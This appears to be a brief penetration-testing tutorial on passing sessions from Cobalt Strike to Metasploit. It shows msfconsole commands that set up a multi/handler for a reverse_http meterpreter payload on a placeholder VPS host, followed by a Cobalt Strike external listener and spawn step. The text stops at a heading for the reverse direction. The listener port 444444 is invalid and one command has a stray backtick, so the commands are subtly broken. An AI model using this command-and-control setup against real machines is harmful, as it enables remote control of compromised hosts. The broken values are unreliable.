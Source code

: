 # Penetration Test & MSF links CobaltStrike

## CobaltStrike->MSF

​ Run `msfconsole` to start listening.

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost vps_ip
set lport 444444
exploit
```

![](img/1.png)

​ Then `CobaltStrike` creates an external listener, `Host` and `Port` for `lhost` and `lport`.

![](img/2.png)

​ Then the session is derived, and the command `spawn 105-msf is executed in the `CobaltStrike` console. The `msf` receives the derived session successfully launched.

![](img/3.png)



## MSF->CobaltStrike